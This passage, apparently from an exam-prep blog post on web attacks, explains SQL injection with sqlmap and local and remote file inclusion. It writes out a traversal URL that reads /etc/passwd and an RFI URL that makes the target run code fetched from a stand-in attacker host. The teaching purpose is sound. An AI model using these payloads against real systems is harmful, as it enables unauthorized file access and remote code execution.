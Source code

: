 ## SQL Injections
If a developer is incompetent and/or lazy, a text field in a webapp can sometimes end up being passed (unsanitized) into an SQL query. If that is the case, you may be able to use this vulnerability to bypass login forms, dump databases (credentials?), and even write files. A full summary of SQL injection methods would be a whole other post, but for now, you can checkout the OWASP guides and use SQLMap. Important — this tool is NOT allowed to be used in the exam at all, however, you should learn how to use it by experimenting with it in the labs.

One huge time-saver when learning SQLMap is to use the -r switch. You can catch the vulnerable request using a proxy like Burp, save it to a text file, and then use SQLMap to scan it just by running:
```
sqlmap -r file.req
```
It took me an embarrassingly long time to find this feature. Don’t be like me. Writing the request details on the command line sucks.

## File inclusions
Sometimes, we are able to include a file of our choice in the code of the web application. If we can somehow inject our own code into that file — we have command execution. There are two types of file inclusion vulnerabilities — local file inclusions (LFI) and remote file inclusions (RFI).

RFIs occur when you can include a remote file (perhaps one that is hosted on your local machine). RFIs are typically easier to exploit, because you can simply host some code on your local machine, and point the RFI to that code to execute it.

LFIs occur when you can include a file on the target machine, they can be handy for reading local files (such as /etc/passwd), but if you can somehow inject your own code into the system somewhere, you can often turn an LFI into remote code execution.

Let’s say that we have a page parameter which is vulnerable to a file inclusion vuln in the following URL:
```
http://target.com/?page=home
```
If this is a Linux box, we could test for a LFI by navigating to:
```
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```
If the box is vulnerable, we might see the contents of /etc/passwd on the target printed to the page.

If you were super observant, you may have noticed that I put a %00 on the end of the URL. This is called a null byte, and it’s purpose is to terminate the string. This technique does not work on newer versions of PHP, but I found that it worked for many of the LFI/RFI vulnerabilities in the labs. If the underlying vulnerable code looks like this:
```
include($page . '.php');
```
Then without the null byte on the end, we would be requesting /etc/passwd.php, which does not exist. The null byte terminates the string, meaning that our attack is likely to be successful.

Sometimes LFI vulnerabilities are also RFI vulnerabilities — to test if this app is vulnerable to RFIs, we could host our own file at http://hackerip/evil.txt which contains our own code, and then visit this URL:
```
http://target.com/?page=http://hackerip/evil.txt%00
```
If successful, the code contained in evil.txt will be executed on our target.
